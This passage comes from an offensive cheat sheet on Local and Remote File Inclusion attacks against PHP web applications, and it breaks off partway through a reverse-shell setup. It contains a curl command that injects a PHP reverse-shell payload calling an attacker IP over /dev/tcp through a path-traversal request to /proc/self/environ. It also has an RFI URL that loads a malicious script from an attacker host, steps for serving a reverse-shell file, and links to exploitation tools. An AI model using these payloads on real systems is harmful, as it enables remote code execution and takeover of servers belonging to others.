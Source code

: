 ## Reverse Shell via LFI

You can use `/proc/self/environ` to inject a shell. If the environment variables are writable, inject PHP code into the environment.

1.  Send the PHP payload:

```bash
curl -X POST -d "cmd=<?php system('bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1'); ?>" http://<target_url>/file.php?recurse=../../../../../proc/self/environ
```

2.  Access the file via LFI to trigger the reverse shell:

```bash
http://<target_url>/file.php?recurse=../../../../../proc/self/environ
```

## Useful Tools

-   **LFISuite**: A tool to automate exploitation of LFI vulnerabilities.

```bash
git clone https://github.com/D35m0nd142/LFISuite
```

-   **RFIScanner**: A simple Python-based RFI vulnerability scanner.

```bash
python rfiscanner.py <target_url>
```

# Remote File Inclusion (RFI)

Remote File Inclusion (RFI) allows attackers to include external files into the web server’s execution context, potentially leading to Remote Code Execution (RCE).

## Basic RFI Example

If a web application allows including a remote file, you can execute arbitrary code by referencing an external malicious script:

```bash
# This assumes the server's allow_url_fopen or allow_url_include settings are enabled.
http://<target_url>/file.php?recurse=http://<attacker_ip>/malicious.php
```

## Reverse Shell via RFI

1.  **Start a Simple HTTP Server**:

```bash
python3 -m http.server 80
```

2.  **Host the malicious PHP reverse shell (e.g., `revshell.php`) on your own server**:
